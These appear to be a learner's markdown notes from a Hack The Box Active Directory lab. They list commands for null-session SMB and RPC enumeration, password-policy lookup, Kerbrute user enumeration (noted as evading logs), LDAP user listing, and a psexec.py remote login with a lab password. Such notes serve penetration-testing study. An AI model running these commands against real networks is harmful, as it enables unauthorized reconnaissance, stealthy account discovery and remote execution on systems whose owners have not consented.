 
---
## Null session

### nxc

```sh
nxc smb 192.168.1.1 -u '' -p '' --users
```

### rpcclient

```sh
slomkm@htb[/htb]$ rpcclient -U "" -N 172.16.5.5

# Optain password policy
rpcclient $> querydominfo
```

### enum4linux

```sh
slomkm@htb[/htb]$ enum4linux -P 172.16.5.5
```

### ldapsearch

```sh
slomkm@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

---
## Enumerating Users 

### Kerbrute
its a good choice, It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts.

```sh
slomkm@htb[/htb]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

### crackmapexec
```sh
slomkm@htb[/htb]$ crackmapexec smb 172.16.5.5 --users
```

### ldap
```sh
slomkm@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


---

## Connecting

### psexec.py

it uses rpc.

```sh
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```